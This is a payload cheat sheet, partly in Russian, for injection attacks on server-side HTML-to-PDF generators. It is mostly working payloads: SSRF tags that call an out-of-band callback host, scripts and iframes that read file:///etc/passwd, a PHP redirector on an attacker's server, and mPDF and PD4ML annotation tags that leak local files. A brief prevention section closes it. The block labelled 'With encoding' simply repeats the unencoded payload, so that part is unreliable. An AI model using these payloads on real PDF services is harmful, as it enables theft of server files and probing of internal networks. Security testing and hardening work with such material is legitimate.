 # PDS Injection
- Get current path
```javascript
<script>document.write(window.location)</script>
```

## SSRF
- `<img src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest1"/>`
- `<link rel="stylesheet" href="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest2" >`
- `<iframe src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest3"></iframe>`

## LFI
```javascript
<script>
	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(this.responseText)
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>
```
**With encoding**
```javascript
<script>
	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(this.responseText)
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>
```
**linebreaks every 100 characters**
```javascript
<script>
	function addNewlines(str) {
		var result = '';
		while (str.length > 0) {
		    result += str.substring(0, 100) + '\n';
			str = str.substring(100);
		}
		return result;
	}

	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(addNewlines(btoa(this.responseText)))
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>
```

## Without JS execution
```html
<iframe src="file:///etc/passwd" width="800" height="500"></iframe>
<object data="file:///etc/passwd" width="800" height="500">
<portal src="file:///etc/passwd" width="800" height="500">
```

### With redirect
1. Создать на своем сервере следующий файл
```php
<?php header('Location: file://' . $_GET['url']); ?>
```
2. Вставить следующую полезную нагрузку
```html
<iframe src="http://172.17.0.1:8000/redirector.php?url=%2fetc%2fpasswd" width="800" height="500"></iframe>
```

## Аннотации
- mPDF
```html
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="LFI" />
```
- PD4ML
```html
<pd4ml:attachment src="/etc/passwd" description="LFI" icon="Paperclip"/>
```

## Preventing
Many PDF generation libraries default the configuration to allow access to external resources. Setting this option to `false` effectively prevents SSRF vulnerabilities. In the DomPDf library, this option is called `enable_remote`.<p>
In some libraries, there are other configuration options that enable the execution of JavaScript and even PHP code on the server. While using features like these might be helpful for the dynamic generation of PDF files, they are also extremely dangerous, as the injection of PHP code can lead to remote code execution (RCE). For example, the `DomPDF` library has a configuration option called `isPhpEnabled` that enables PHP code execution; this option should be disabled because it's a security risk.

### Settings
- JavaScript code should not be executed under any circumstances
- Access to local files should be disallowed
- Access to external resources should be disallowed or limited if it is required
